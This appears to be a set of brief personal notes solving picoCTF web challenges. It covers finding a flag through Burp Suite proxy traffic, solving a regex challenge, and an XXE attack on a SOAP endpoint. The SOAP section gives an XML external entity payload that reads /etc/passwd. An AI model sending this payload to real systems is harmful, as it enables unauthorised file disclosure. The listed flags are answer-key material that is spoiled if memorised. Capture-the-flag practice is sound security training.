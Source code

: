 
## findme

- Use burp suite proxy and type in login details. 
- Find that there are some GET requests:
	![[Pasted image 20231107101401.png]]
![[Pasted image 20231107101427.png]]


Flag = picoCTF{proxies_all_the_way_25bbae9a}

## MatchTheRejex

Just type in picoCTF into the input field to get the flag

Flag = picoCTF{succ3ssfully_matchtheregex_8ad436ed}
![[Pasted image 20231107102731.png]]

## SOAP

XXE - xml external entity

Add the following code to the xxe that is sent to the server.

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```


